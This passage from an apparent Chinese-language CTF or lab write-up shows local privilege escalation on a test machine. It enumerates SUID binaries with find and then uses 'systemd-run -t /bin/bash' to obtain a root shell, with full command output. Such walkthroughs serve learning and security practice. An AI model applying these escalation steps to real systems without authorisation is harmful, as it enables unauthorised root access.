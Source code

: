   ```


### 使用systemd-run提权

- 查找具有s位的文件进行提权

- ```shell
  norris@sirrom:~$ find / -perm -u=s -type f 2>/dev/null 
  /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
  /usr/lib/xorg/Xorg.wrap
  /usr/lib/eject/dmcrypt-get-device
  /usr/lib/policykit-1/polkit-agent-helper-1
  /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  /usr/lib/openssh/ssh-keysign
  /usr/sbin/pppd
  /usr/sbin/mount.nfs
  /usr/bin/gpasswd
  /usr/bin/umount
  /usr/bin/newgrp
  /usr/bin/passwd
  /usr/bin/fusermount
  /usr/bin/chfn
  /usr/bin/bwrap
  /usr/bin/mount
  /usr/bin/su
  /usr/bin/pkexec
  /usr/bin/ntfs-3g
  /usr/bin/chsh
  /usr/bin/sudo
  norris@sirrom:~$ 
  
  ```

- 使用`systemd-run -t` 启动一个新的`bash`环境

  - 参数：-t	启动一个新的伪终端

- ```shell
  norris@sirrom:~$ ls -lhai /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper 
  36340 -rwsr-xr-x 1 root root 18K Sep  8  2018 /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
  norris@sirrom:~$ systemd-run -t /bin/bash
  ==== AUTHENTICATING FOR org.freedesktop.systemd1.manage-units ===
  Authentication is required to manage system services or other units.                                                
  Authenticating as: norris,,, (norris)
  Password: 
  ==== AUTHENTICATION COMPLETE ===
  Running as unit: run-u98.service                                                                                    
  Press ^] three times within 1s to disconnect TTY.
  root@sirrom:/# whoami
  root
  root@sirrom:/# ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
      link/ether 00:0c:29:2f:90:77 brd ff:ff:ff:ff:ff:ff
      inet 192.168.2.6/24 brd 192.168.2.255 scope global dynamic noprefixroute ens33
         valid_lft 1453sec preferred_lft 1453sec
      inet6 fe80::20c:29ff:fe2f:9077/64 scope link noprefixroute 
         valid_lft forever preferred_lft forever